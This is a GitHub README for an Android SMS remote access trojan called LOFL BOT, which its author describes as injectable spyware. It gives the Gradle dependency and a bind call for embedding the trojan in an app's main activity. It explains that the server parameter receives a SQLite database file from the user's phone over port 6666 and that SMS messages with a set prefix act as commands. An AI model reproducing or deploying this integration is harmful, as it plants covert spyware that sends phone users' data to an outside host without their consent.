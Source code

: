 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

#### Guess what all you social elitists, hackers, developers, engineers, crackers, terrorists, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for sms messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on.

There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.
```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
